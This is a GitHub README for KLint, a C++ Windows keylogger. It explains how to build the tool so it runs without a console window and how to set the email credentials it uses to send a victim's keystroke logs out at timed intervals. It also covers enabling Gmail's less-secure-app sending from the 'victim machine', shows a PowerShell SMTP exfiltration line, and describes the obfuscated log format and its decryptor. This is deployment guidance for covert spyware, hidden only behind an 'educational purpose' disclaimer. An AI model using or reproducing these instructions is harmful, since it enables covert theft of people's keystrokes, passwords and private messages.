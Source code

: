# KLint 
**CPP KeyLogger**<br /><br />
**KLint** captures keyboard key strokes using system hooks [**Based on Windows API**]. The keystrokes are written to a encrypted log file 
hidden under the windows filesystem tree and the log file is sent to the target via email after paticular time intervals as defined in **KeyHooks.h**<br />
In current version **v0.01** only keystroke recording is supported but soon screenshots, audio recording and much more will be added. <br /><br />

## Disclaimer
ANY MALICIOUS USE OF THE CONTENTS FROM THIS PROJECT WILL NOT HOLD THE AUTHOR RESPONSIBLE, THE CONTENTS ARE SOLELY FOR EDUCATIONAL PURPOSE

<br >

# Table of Contents


   * [Setup](#setup)
   * [Configuring The Keylogger](#configuration)
        * [Email Setup](#email-setup)
        * [Additional Params](#additional-parameters)
   * [Encryption](#encryption)
   * [Decryption](#decryption)
        * [Klint Decryptor](#Klint-Decryptor)


## Setup
Download the repository using either bash or the browser

```
git clone https://github.com/shaiq-dev/Klint.git
```

The keylogger is created in **CodeBlocks**, however any IDE supporting C++ can be used to build or modify the project. The CodeBlocks project files are included with this repo. <br />
For any other IDE directly add all the files to a new project. <br /><br />
**Prerequisites**

```

* C++11 standards must be enabled and if using GCC compilter, -mwindows flag needs to be checked
* Addtionally -static flag maybe need to bundle all the dependencies with the exe that are required during runtime

```
    
## Configuration
For current version all the configurations are directly done to the source code. This will be changed in upcoming versions

### Email Setup
Default email configuration is set for **Gmail**. For email setup you need to configure 3 Macros in ***Sender.h*** in ..\KLint\Klint\Sender.h on ***Line 40*** <br />
```
    #define X_EM_TO "receiver@mail.com"
    #define X_EM_FROM "sender@mail.com"
    #define X_EM_PASS "sender password"
```
**X_EM_TO**       &#9;:&#9;Your destination email <br />
**X_EM_FROM**     &#9;:&#9;Your Source email   <br />
**X_EM_PASS**     &#9;:&#9;Source email password   <br />

* **For Gmail Users**

    * To send the emails successfully from the victim machine turn on "Allow  LESS SECURE APPS" from [here](https://myaccount.google.com/lesssecureapps)<br />
    * Alternatively to be on the safer side you can use "APP PASSWORDS"
    from [here](https://myaccount.google.com/apppasswords), but to use this you need to enable 2 factor authentication
    *   Learn more about app passwords on Google [support](https://support.google.com/accounts/answer/185833?hl=en)<br />

*   **Other Mail Providers**

    Open ***Sender.h*** and goto **Line 69**
    ```
    $Srv = \"smtp.gmail.com\" "
    ```
    Change **smtp.gmail.com** with the mail server of your email provider and edith **Line 78**
    ```
    "           $Client = New-Object Net.Mail.SmtpClient($Srv, 587) #587 port for smtp.gmail.com SSL\r\n "
    ```
    Change **587** with your mail server port number


### Additional Parameters

To change the *time interval* for sending emails, there is a macro in ***KeyHooks.h*** in ..\KLint\Klint\KeyHooks.h on ***Line 17*** <br />
```
#define X_EM_SEMA 30000
```
That default value is *30000* which represents _30_ seconds or _30000 milliseconds_. Any value here should be given in milliseconds<br /><br />

## Encryption

The keylogger uses [BASE64](https://en.wikipedia.org/wiki/Base64) encryption, as it is easy to decrypt so i have added some modification to the original algorithim. <br />
If you want to change the algorithim to fit your needs goto ___Base64.h___ located at _.\KLint\Klint\Base64.h_ and change the __SALTS__ and do the custom modifications to the following function on __Line 29__
```
 std::string encryptB64(std::string s) 
```
Any modifications made here shall also be made with the [decryptor](#decryption) in the reverse fashion. <br />
You can also change the whole algorithim to fit your needs
<br /><br />

## Decryption

The logs are decrypted using the same BASE64 algorithim and all the modifications made in the __BASE64.h__ are reversed here. The decryptor is located at 
```
..\KLint\Klint Decryptor\Klint-dcrypt\main.cpp
```
Any modifications made with the encryptor shall be reverted here but in reverse fashion. All the modifications shall be done with the below function located at __Line 69__
```
std::string DecryptB64(std::string s)
```

### KLint Decryptor

The ___exe___ version of the klint decryptor is already bundled with this project and can be used to decrypt the log files. It is located at
```
...\KLint\Klint Decryptor\Klint-dcrypt\bin\Debug\Klint-dcrypt.exe
```
**Usage** <br />

The __klint-dcrypt.exe__ can be run from the Windows command Line, it requires two parameters, input and the output file.
```
CMD > .\klint-dcrypt.exe "InputFile.log" "OutputFile.log"
```  

## License
This project is licensed under the MIT License, see the [LICENSE](License.md) file for more details
